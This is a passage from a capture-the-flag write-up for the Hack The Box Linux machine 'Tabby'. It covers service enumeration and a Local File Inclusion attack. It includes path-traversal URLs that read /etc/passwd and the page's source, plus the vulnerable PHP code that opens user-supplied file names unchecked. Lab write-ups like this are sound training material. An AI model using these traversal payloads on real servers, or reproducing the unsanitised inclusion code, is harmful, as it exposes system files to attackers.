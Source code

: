 **HTB > Machines > Tabby**

key | val
---|---
OS | Linux
Difficulty | Easy
Points | 20
Release | 20 Jun 2020
IP | 10.10.10.194

# User flag

## Services enumeration

Let's start by adding `tabby.htb` to our `hosts` file:

~~~
$ echo "10.10.10.194 tabby.htb" | sudo tee -a /etc/hosts
~~~

Nmap discovers 3 open ports, 2 of which related to `http`.

~~~
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web enumeration (port 80/tcp)

Browsing the main page shows an email addresse in the `megahosting.htb` domain. Let's add the virtualhost to our `hosts` file.

Clicking on the "News" item from the menu redirects us to http://megahosting.htb/news.php?file=statement.

## Local File Inclusion (LFI)

This URL is vulnerable to Local File Inclusion (LFI) attacks, which allows to read arbitrary files on the server (e.g. http://megahosting.htb/news.php?file=../../../../etc/passwd).

Exploiting this LFI vulnerability, it is possible to read the source code of the vulnerable page (http://megahosting.htb/news.php?file=../news.php):

```php
<?php
$file = $_GET['file'];
$fh = fopen("files/$file","r");
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```
